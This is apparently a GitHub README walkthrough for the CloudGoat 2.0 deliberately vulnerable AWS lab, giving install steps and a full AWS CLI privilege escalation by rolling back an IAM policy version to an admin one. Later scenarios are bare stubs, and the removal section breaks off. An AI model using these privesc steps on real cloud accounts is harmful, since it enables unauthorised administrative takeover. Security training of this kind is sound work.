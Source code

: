 # cloud-goat_walkthrough
Short Cloud Goat 2.0 Walkthrough with AWS CLI  
This walkthrough only consists of this readme file  

CloudGoat was written by RhinoSecurityLabs. More information can be found here:  
(https://rhinosecuritylabs.com/aws/cloudgoat-vulnerable-design-aws-environment/)

Github's Official CloudGoat link can be found here:  
(https://github.com/RhinoSecurityLabs/cloudgoat)

## Installation
Cloud goat can be installed via Docker, but this guide only covers the AWS installation of CloudGoat.  
This requires a free tier Amazon AWS account. RhinoLabs states that this training may cost $1-3 per day.  
While I cannot guarantee this to be free, I have yet to accrue any costs while using CloudGoat.  
  
Create an aws profile to use for cloudgoat, this example uses the profile **goat**.  
To install CloudGoat, several steps are required as pre-requisites.    
Installation for Windows systems is not included at this time, but detailed installation steps will be included for both Linux and OSX. Leave me feedback requesting this, and I'll get it working on Windows for you.  
  
### Linux
1. Verify python3.6+ is installed  

### OSX
MacOS High Sierra and Mojave both come with Python3.6+   
1. Verify python3.6+ is installed from Terminal  
`python3` will launch the installed version of python 3 which it will list on the 1st line  
CTRL+D to quit   
2. Install terraform   
`brew install terraform`  
3. Verify terraform installation   
`terraform`   
4. Install AWS CLI  
`brew install awscli`   
5. Change the directory to a good location for CloudGoat *~/* seems to work best for a least priv option  
6. Install CloudGoat  
```bash
git clone https://github.com/RhinoSecurityLabs/cloudgoat.git
cd cloudgoat
sudo chmod u+x cloudgoat.py
sudo chmod 777 cloudgoat.py
```   
The github documentation states to use pip3 install -r requirements.txt, but I have found that isn't actually necessary.  
7. Create a profile   
`./cloudgoat.py config profile`   
    * Default profile name? __y__     
    * Default AWS profile: __goat__   
8. Configure your system's IP to be on the whitelist   
`./cloudgoat.py config whitelist --auto`   
Now that the installation of the cloudgoat python module is complete, move on to create/remove the scenarios in order.  
9. Create the **goat** profile for AWS CLI
`aws configure --profile goat`   
    * AWS Access Key ID: __goat account aws_access_key_id__   
    * AWS Secret Access Key: __goat aws_secret_access_key__   
    * Default region name: __us-east-1__   
    * Default output format: __can be left blank__    
    

## iam_privesc_by_rollback
This scenario starts with limited user credentials and escalates to admin privileges by rolling back an iam policy version.  
1. Create scenario  
`./cloudgoat.py create iam_privesc_by_rollback --profile goat`  
2. Document all Outputs information  
e.g.  
   * cloudgoat_output_aws_account_id =  
   * cloudgoat_output_raynor_access_key_id =  
   * cloudgoat_output_raynor_secret_key =  
3. Create the profile for Raynor, the user you need to privesc as  
`aws configure --profile raynor`  
    * AWS Access Key ID: __raynor account aws_access_key_id__   
    * AWS Secret Access Key: __raynor aws_secret_access_key__   
    * Default region name: __us-east-1__   
    * Default output format: __leave blank__ 
4. List the user policies for Raynor  
`aws iam list-attached-user-policies --user-name raynor --profile raynor`  
5. Document the PolicyArn Value
6. List the versions for the discovered user policy   
`aws iam list-policy-versions --policy-arn arn:aws:iam:666999666999:policy/cg-raynor-policy --profile raynor`   
7. Get information on the policy for all versions
`aws iam get-policy-version --policy-arn arn:aws:iam:666999666999:policy/cg-raynor-policy --version-id v1 --profile raynor`
8. Document the policy version which contains __Allowed Actions:*__ and __Resource:*__  
This demonstrates administrative privileges by allowed all actions to be performed on all resources
9. Set the default policy version to the one containing admin privileges 
aws iam set-default-policy-version --policy-arn arn:aws:iam:666999666999:policy/cg-raynor-policy --version-id v3 --profile Raynor  
10. Verify account authorization details are administrative
`aws iam get-account-authorization-details --profile raynor`
This list will be a bit accessive as the account now has all possible privileges 

### Destroy iam_privesc_by_rollback
There's no reason to leave an overly permissive account lying around. 
1. Clean up this scenario with the **destroy** command
`cloudgoat.py destroy all --profile raynor`
2. Remove the created profile
`vim ~/.aws/credentials`   
Type `dd` beside each line to be removed  
Then `:wq` to write and quit  

## iam_privesc_by_attachment
1. Create scenario  
`./cloudgoat.py create iam_privesc_by_attachment --profile goat`  


## cloud_breach_s3
1. Create scenario  
`./cloudgoat.py create cloud_breach_s3 --profile goat`  


## ec2_ssrf
1. Create scenario  
`./cloudgoat.py create ec2_ssrf --profile goat`  


## rce_web_app
1. Create scenario   
`./cloudgoat.py create rce_web_app --profile goat`   


## codebuild_secrets
1. Create scenario  
`./cloudgoat.py create codebuild_secrets --profile goat`  

## Removal
### iam_privesc_by_rollback
